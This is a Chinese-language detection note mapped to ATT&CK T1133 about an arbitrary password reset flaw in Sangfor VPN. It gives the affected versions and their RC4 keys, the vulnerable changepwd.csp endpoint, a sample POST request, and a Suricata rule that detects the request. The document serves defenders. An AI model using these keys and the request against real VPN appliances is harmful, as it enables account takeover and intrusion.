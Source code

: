 # T1133-001-深信服VPN任意密码重置

## 来自ATT&CK的描述

攻击者可能会利用面向外部的VPN服务来实现最初访问或网络内持久化。VPN服务使用户可以从外部位置连接到内部企业网络资源。

通常需要有效帐户才能使用该服务，这可以通过凭据篡改或在攻陷企业网络之后从用户那里获取凭据来获得。（引自：Volexity Virtual Private Keylogging） 在攻击者的操作过程中，对远程服务的访问可用作冗余或持久访问机制。

## 测试案例

已知影响范围M7.6.6R1、M7.6.1

## 检测日志

HTTP

## 测试复现

M7.6.6R1 key 为20181118

M7.6.1 key 为 20100720

<https://xxx/por/changepwd.csp>

## 测试留痕

```yml
POST /por/changepwd.csp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN
```

## 检测规则/思路

### Suricata规则

```s
alert http any any -> any any (msg:"深信服VPN任意密码重置";flow:established,to_server;content:"POST";http_method;content:"/por/changepwd.csp";http_uri;content:"sessReq=clusterd&sessid=0&str=RC4_STR&len=RC4_STR_LEN";http_client_body;reference:url,www.hacking8.com;classtype:web-application-attck;sid:3002012;rev:1;)
```

### 建议

流量+安全设备比较容易检测到此攻击行为。

## 参考推荐

MITRE-ATT&CK-T1133-001

<https://attack.mitre.org/techniques/T1133/001>

